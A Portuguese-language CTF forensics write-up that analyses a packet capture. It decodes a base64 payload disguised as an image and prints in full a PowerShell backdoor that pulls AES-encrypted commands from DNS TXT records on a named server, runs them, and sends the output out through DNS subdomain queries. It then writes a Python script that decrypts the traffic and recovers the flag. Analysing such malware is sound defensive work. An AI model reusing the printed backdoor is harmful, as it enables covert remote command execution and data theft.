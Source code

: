 #Difficult : Easy #Category : Forensics
***
#### Info
Recebemos uma arquivo de tráfego de rede para concluir a investigação.
![[Pasted image 20250514192018.png]]
#### Basic Analysis
Sempre começo filtrando por `http` para ver as requisições feitas, pois é comum que se utilize a web na exploração, também costumo filtrar pelas requisições `GET`.
```
http.request.method == GET
```
![[Pasted image 20250514192418.png]]

Temos vários arquivos que foram enviados via `GET`, então seleciono cada um e sigo o `TCP Stream` para ver seu conteúdo. Como existem muitos arquivos repetidos, eu os pulo. Todos parecem ser binários reais menos o `desktop.png`.
![[Pasted image 20250514192834.png]]

Após seguir seu `TCP Stream` vejo que o real conteúdo da imagem é um `base64`. 
![[Pasted image 20250514192936.png]]

Podemos usar o `Cybercheff` para ver o conteúdo real.
![[Pasted image 20250514193104.png]]

Parece que temos um código em `PowershellScript`. Podemos copiar esse código para nossa máquina e analisa-lo. Esse é o código obtido.
```powershell
function Create - AesManagedObject($key, $IV) {
    $aesManaged = New - Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV)  {
        if ($IV.getType().Name  - eq "String")  {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        } else {
            $aesManaged.IV = $IV
        }

    }

    if ($key)  {
        if ($key.getType().Name  - eq "String")  {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        } else {
            $aesManaged.Key = $key
        }

    }

    $aesManaged
}

function Create - AesKey() {
    $aesManaged = Create - AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt - String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create - AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV  +  $encryptedData
    $aesManaged.Dispose()
    [System.BitConverter]::ToString($fullData).replace("-", "")
}

function Decrypt - String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create - AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length  -  16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

filter parts($query) {
    $t = $_;
    0..[math]::floor($t.length  /  $query) | % {
        $t.substring($query  *  $_, [math]::min($query, $t.length  -  $query  *  $_)) 
    }

}

$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve - DnsName  - type TXT  - DnsOnly windowsliveupdater.com  - Server 147.182.172.189|Select - Object  - Property Strings;
for ($num = 0;
$num  - le $out.Length - 2;
$num++) {
    $encryptedString = $out[$num].Strings[0]
    $backToPlainText = Decrypt - String $key $encryptedString
    $output = iex $backToPlainText;
    $pr = Encrypt - String $key $output|parts 32
    Resolve - DnsName  - type A  - DnsOnly start.windowsliveupdater.com  - Server 147.182.172.189
    for ($ans = 0;
    $ans  - lt $pr.length - 1;
    $ans++) {
        $domain =  - join($pr[$ans], ".windowsliveupdater.com")
        Resolve - DnsName  - type A  - DnsOnly $domain  - Server 147.182.172.189
    }

    Resolve - DnsName  - type A  - DnsOnly end.windowsliveupdater.com  - Server 147.182.172.189
}
```
#### Code analysis
Joguei esse código em um arquivo `powershell.code.ps1`.

Aqui parece que os dados são extraditados como requisições `DNS` com o dados em `HEX` concatenado com *.windowsliveupdater.com*.
![[Pasted image 20250515114319.png]]

Aqui ele faz requisições `DNS` e armazena as `strings` do campo `TXT` da requisição. Podemos voltar ao tráfego e analisar.
![[Pasted image 20250514195150.png]]

```
dns and ip.addr == 147.182.172.189
```
![[Pasted image 20250514201108.png]]
A primeira requisição `DNS` tem 7 entradas `TXT` em `base64`, aparentemente são os dados roubados.

Salvei elas em um arquivo `data.enc.`
```sh
nvim data.enc
```
![[Pasted image 20250514201303.png]]
Agora temos que descriptografar.

Após armazenar as `Strings` em um array ele passa elas para a função `Decrypt - String`.
![[Pasted image 20250514201728.png]]
Essa função faz um decode do `base64` recuperando os bytes, pega os primeiros 16 bytes e usa como `IV`, então faz a descriptografia dos últimos 16 bytes. A `key` da descriptografia é fornecida no `script` Powershell.
#### Flag
Sendo assim, consegui formar o seguinte script. Podemos então executa-lo.
![[Pasted image 20250515112946.png]]

```sh
python exploit.py
```
![[Pasted image 20250515113100.png]]

Temos a senha do usuário encodado em `base64`, vamos recupera-lo.
![[Pasted image 20250515113229.png]]
Achei que teria acabado, mas conseguimos apenas a primeira parte da flag.

Acredito que a segunda parte deve estar nas outras requisições feitas para roubar dados. Usei a seguinte pesquisa no `Wireshark`.
```
dns.qry.name contains ".windowsliveupdater.com" and ip.src == 10.0.2.15
```
![[Pasted image 20250515115002.png]]

Podemos recuperar esse dados com `Python` ou usando o `Tshark`. Vou fazer usando `Python` e já aproveitar o `script` de descriptografia.

Esse `script` pega o arquivo `PCAP` filtra as requisições `DNS`, separa o domínio principal, e recupera os dados extraditados em `HEX`. Após isso ele irá passar os bytes para a função de descriptografia.
```python
from Crypto.Cipher import AES
from scapy.all import *
import binascii
import base64

def aes_decrypt(key: bytes, iv: bytes, ct: bytes) -> bytes:
    aes = AES.new(key, AES.MODE_CBC, iv)  # Correção: MODE_CBC (não NODE_CBC)
    return aes.decrypt(ct)

def main() -> None:
    filename = "capture.pcap"
    src = "10.0.2.15"  # IP do atacante
    dst = "147.182.172.189"  # Servidor DNS malicioso

    output = ''
    flag = ''

    # Chave AES em base64 (corrigida do PDF)
    key = base64.b64decode("a1E4MUtycWswTmtrMHdqdg==")  

    # Lê o arquivo PCAP
    packets = rdpcap(filename)

    for pkt in packets:
        try:
            if pkt.haslayer(DNSQR) and pkt[IP].src == dst:  # Filtra respostas DNS do servidor malicioso
                # Extrai a parte relevante do domínio (ex: "start", "end", ou dados criptografados)
                data = pkt[DNSQR].qname.decode().split('.')[0]

                if data == 'start':
                    output = ''  # Inicia novo bloco
                elif data == 'end':
                    # Converte hex para bytes e descriptografa
                    decrypted_data = binascii.unhexlify(output)
                    iv = decrypted_data[:16]  # IV = primeiros 16 bytes
                    ct = decrypted_data[16:]   # Dados criptografados
                    res = aes_decrypt(key, iv, ct)
                    # Remove padding e exibe
                    print(res.strip(b'\x00').decode())
                    output = ''
                else:
                    output += data  # Concatena partes do payload

        except Exception as e:
            pass  # Ignora erros

if __name__ == '__main__':
    main()


```
![[Pasted image 20250515162418.png]]

***
![[Pasted image 20250515144354.png]]